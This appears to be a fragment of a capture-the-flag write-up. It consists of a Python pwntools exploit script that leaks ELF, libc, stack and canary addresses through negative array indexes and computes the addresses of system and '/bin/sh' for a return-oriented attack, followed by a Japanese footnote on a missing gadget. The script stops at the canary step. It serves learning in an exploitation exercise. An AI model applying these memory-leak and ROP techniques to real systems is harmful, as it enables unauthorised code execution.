 ```python
        input("[+] attach")


    addrs = {}
    rpg = {
        "pop_rdi": 0x001bc021,  # libc,
        "ret": 0x001bc02d  # libc
    }

    elf  = ELF("./chall")
    libc = ELF("./libc.so.6")


    addrs = {}

    # elf leak
    idx = -5
    send(str(idx).encode())
    res = sc.recvline().strip().decode()
    leak = int(res)
    elf_addr = leak -  (0x0000555555555272 -  0x555555554000)

    print(hex(elf_addr))
    addrs["elf"] = elf_addr

    # libc leak
    idx = -6
    send(str(idx).encode())
    res = sc.recvline().strip().decode()
    leak = int(res)
    # diff = (0x7f147dd7d040 - 0x7f147db0c000)  # my local env
    # diff = (0x7f147dd7d040 - 0x7f147db0c000 - 0xa000)  # my docker env
    diff = (0x7f147dd7d040 - 0x7f147db0c000 - 0xb000)  # remote (sry brute-forcing...)
    libc_addr = leak - diff

    print(hex(libc_addr))
    addrs["libc"] = libc_addr
    addrs["binsh"] = next(libc.search(b"/bin/sh")) + libc_addr
    addrs["system"] = libc.symbols["system"] + libc_addr

    # stack (array) leak
    #         leak in stack      - array address  = diff
    # test 1: 0x00007fff9b2691b0 - 0x7fff9b269130 = 0x80
    # test 2: 0x00007ffda94c1a10 - 0x7ffda94c1990 = 0x80
    # test 3: 0x00007ffe387e0b50 - 0x7ffe387e0ad0 = 0x80
    # !!!!!!!

    idx = -10
    send(str(idx).encode())
    res = sc.recvline().strip().decode()
    leak = int(res)
    array_addr = leak - 0x80
    print(hex(array_addr))
    addrs["array"] = array_addr

    # canary leak
    # test n: master canary address - libc address = diff
    # test 1: 0x7f5eadf5d768 - 0x7f5eadf60000 = -0x2898
    # test 2: 0x7f1840472768 - 0x7f1840475000 = -0x2898
    # ok (but I have to leak stack address)

    canary_addr = libc_addr - 0x2898
    print(hex(canary_addr))
```

[^1]: ROPガジェットのためにELFの配置先をリークしておいたが、`pop rdi; ret;`すら存在しなかったので残念ながら役に立つことは無かった